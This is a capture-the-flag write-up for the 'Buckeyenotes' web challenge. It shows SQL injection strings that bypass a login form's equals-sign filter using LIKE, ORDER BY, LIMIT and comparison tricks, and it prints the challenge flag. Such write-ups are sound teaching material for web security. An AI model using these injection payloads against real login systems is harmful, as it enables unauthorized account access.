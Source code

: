 # Buckeyenotes

Open this URL: https://buckeyenotes.chall.pwnoh.io/

Test all special characters: `'"&<>` as username and password but we get `Invalid username or password`. In the first time i think it's XSS because we don't have a *HTTP error 500* and `HTTPOnly` is not defined. But we don't have other pages to send or store any data or payload.

So, i try SQL injection:

```
Username: test
Password: ' OR 1=1; --
```

We get this message: `nice try, hacker >:D I removed your equal signs`.

```
Username: rene
Password: ' OR 'abc' LIKE 'abc'; --
```

Success ! We get this message: `Logged in as rene. Nothing posted yet :(`, but we don't have the flag.

To get the flag i use this payload:

```
Username: test
Password: ' OR 'abc' LIKE 'abc' ORDER BY Username; --
```

We get this message: `Success! your flag is buckeye{wr1t3_ur_0wn_0p3n_2_pwn}`

This solution is working because the username is the first in alphabetical order (there are only 5 accounts and the username start with *b*).

There are other solutions to get the flag when the username is not the first in alphabetical order.

```
Username: test
Password: ' OR 'abc' LIKE 'abc' LIMIT 1, 2; --
```

You can change the numbers in the limit.

```
Username: test
Password: 1' OR 1<2 AND USERNAME like 'brutusB3stNut9999
```

This solution is very cool because there is only one request to find the flag.
